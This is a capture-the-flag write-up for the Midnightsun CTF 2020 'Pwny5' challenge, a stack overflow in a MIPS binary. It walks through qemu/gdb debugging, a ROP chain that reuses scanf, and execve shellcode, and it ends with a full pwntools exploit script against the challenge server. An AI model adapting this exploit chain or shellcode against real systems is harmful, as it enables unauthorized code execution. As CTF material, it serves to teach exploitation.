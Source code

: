 ```yaml
---
title: Pwny5 | Midnightsun CTF 2020
categories: ["pwn"]
tags: ["mips", "stack overflow"]
authors: ["jofra"]
points: 176
solves: 27
---
```


THIS IS GONNA BE A DESCRIPTION

## Overview
In this challenge we get a statically linked binary with a very simple vulnerability. A `scanf("%s", stack_buffer)` resulting in a classic stack buffer overflow, as can be seen in the image below.

![](/assets/img/2020-04-04-pwny5_main.png)

The interesting part is that we have a `mips` binary. This was a first for me and in this writeup we will explore how I debugged and exploited this challenge.

![](/assets/img/2020-04-04-pwny5_file.png)

## Debugging setup
First of all let's get a good debugging setup.

To simply run the binary we can use `qemu-mipsel-static ./pwn5`.

We can also make qemu wait for a gdb connection on port 1234 with `qemu-mipsel-static -g 1234 ./pwn5`. Then, on another terminal, we can launch `gdb-multiarch` and run the following commands to establish the connection (I added these to my `~/.gdbinit` to make this step automatic):
```
file ./pwn5
set arch mips
target remote localhost:1234
```

And we have debugging! As a side note, `pwndbg` was making qemu crash for some reason I did not investigate, but switching to `gef` fixed that problem for the most part.


## Exploit
### pc control
To start let's get `pc` (program counter) control. The program calls `scanf("%s", buf_64_sz)` and so we just need to fill the buffer with `"A"*64` and then we have control over the `fp` (frame pointer) and `ra` (return address).

![](/assets/img/2020-04-04-pwny5_main_end.png)

```py
fp = "BBBB"
ra = "CCCC"
s.sendline("A"*64 + fp + ra)
```

### pop a shell
To pop a shell, my first thought was to **ROP**, calling the `read` syscall to read `/bin/sh` to the bss, and then calling the `execve` syscall. In [linux mips syscall](https://www.linux-mips.org/wiki/Syscall) arguments are passed in registers `$a0` to `$a3` and the syscall number is passed in register `$v0`.

After looking through the gadgets (extracted with `ROPgadget --binary ./pwn5`) I noticed that, contrarily to x86, having control over the argument registers `$a0`, `$a1` and `$a2` is not very easy.

For that reason I decided to use the existing `scanf` call in the binary to get data into the `bss`. As we can see in the image below, if we jump to the highlighted address `0x400758`, we can control where the scanf will write to by controlling `$v0`.

![](/assets/img/2020-04-04-pwny5_scanf_call.png)

And that is what I did. I used a gadget to control `$v0` and then jumped to `0x400758`.
```python
def set_v0(v0):
    return "".join([
        p32(0x0046f27c), # lw $v0, 0x20($sp); lw $ra, 0x2c($sp); jr $ra ; addiu $sp, $sp, 0x30
        "X"*0x20,
        p32(v0),
        "X"*0x8,
    ])

addr_to_read_to = elf.bss(0x100)
scanf_addr = 0x400758
ROP = "".join([
    set_v0(addr_to_read_to),
    p32(scanf_addr),
])

payload = "A"*64 + p32(elf.bss(0x200)) + ROP
s.sendline(payload)
```

I also made `fp` equal `bss+0x200`, because this value will be used to set `sp` after the call to `scanf`, on the instruction `move $sp, $fp` which is analogous to `leave` on x86. (can be seen in the first picture at 0x40078c). By controlling the stack pointer, we can regain `ra` and therefore `pc` control.

At this point I also realized that I could execute shellcode on the stack, bss, etc.. since all mappings are `rwx`. Since I was already reading to the bss, I decided to read shellcode, and then jump to it.

The shellcode consisted of:
 - setting `$a1` and `$a2` to 0
 - setting `$a0` to the address of `/bin/sh` by simply subtracting 8 to the original `$a0` (determined by debugging)
 - setting `$v0` with the `execve` syscall number
 - jumping to the address of a `syscall` gadget already in the binary

**NOTE**: Ideally I would simply use the `syscall` instruction (opcode `0000000c`), but it contains the byte `0c` which would cause `scanf` to stop reading. At the time I didn't know this, but there was a simple workaround. As you can see in [mips-isa](https://www.cs.cmu.edu/afs/cs/academic/class/15740-f97/public/doc/mips-isa.pdf) page 159, the syscall opcode has a `code` field which we can use to our advantage. Assembling `syscall 0xfffff` results in opcode `03ffffcc` which does NOT contain a terminating char like before. That said, jumping to a `syscall` gadget was also simple enough and I even learned about delay slots.

If you notice there is a `nop` after the `j 0x4068bc`, which is not there by accident. In MIPS there are [branch delay slots](https://en.wikipedia.org/wiki/Delay_slot), meaning the next instruction is always executed, even if the previous instruction was a branch that was taken.

```python
mips_shellcode = asm("""
    xor $a1, $a1
    xor $a2, $a2

    addiu $a0, $a0, -8 # This will point to /bin/sh

    li $v0, 4011 # execve syscall
    j 0x4068bc # syscall gadget
    nop
""")
print disasm(mips_shellcode)

# The bytes that will stop scanf from reading
assert all([i not in "\x09\x0a\x0b\x0c\x0d\x20" for i in mips_shellcode])

payload_2 = mips_shellcode.ljust(348, "D") + p32(shellcode_addr)
s.sendline(payload_2.ljust(1132-8, "Z") + "/bin/sh")
```

And we have a shell!

## Other possible methods
Now thinking about it, since the code area is writable I guess I could have just injected my shellcode right after the `scanf` call instead of injecting it in the bss and then jumping to it.

Maybe I could even just have written the shellcode on the stack and used a gadget to jump to the stack pointer, instead of reading the second time with `scanf`.


## Exploit
Here is the full exploit:

```py
from pwn import *
import sys

LOCAL = True
if "remote" in sys.argv:
    LOCAL = False


context.clear(log_level='info', arch="mips", os='linux')
elf = ELF("pwn5")

HOST = "pwn5-01.play.midnightsunctf.se"
PORT = 10005


def go():
    if LOCAL:
        # s = process("qemu-mipsel-static -g 1234 ./pwn5".split(" "))
        s = process("qemu-mipsel-static ./pwn5".split(" "))
    else:
        s = remote(HOST, PORT)

    s.recvuntil("data:")

    def set_v0(v0):
        return "".join([
            p32(0x0046f27c), # : lw $v0, 0x20($sp) ; lw $ra, 0x2c($sp) ; jr $ra ; addiu $sp, $sp, 0x30
            "X"*0x20,
            p32(v0),
            "Z"*0x8,
        ])

    shellcode_addr = elf.bss(0x100)
    scanf_addr = 0x400758
    ROP = "".join([
        set_v0(shellcode_addr),
        p32(scanf_addr),
    ])

    payload = "A"*64 + p32(elf.bss(0x200)) + ROP
    print "Payload:", payload
    s.sendline(payload)

    mips_shellcode = asm("""
        xor $a1, $a1
        xor $a2, $a2

        addiu $a0, $a0, -8 # This will point to /bin/sh

        li $v0, 4011 # execve syscall
        j 0x4068bc # syscall gadget
        nop
    """)
    print disasm(mips_shellcode)

    # The bytes that will stop scanf from reading
    assert all([i not in "\x09\x0a\x0b\x0c\x0d\x20" for i in mips_shellcode])

    payload_2 = mips_shellcode.ljust(348, "D") + p32(shellcode_addr)
    payload_2 = payload_2.ljust(1132-8, "Z") + "/bin/sh"
    s.sendline(payload_2)

    s.interactive()

go()
```
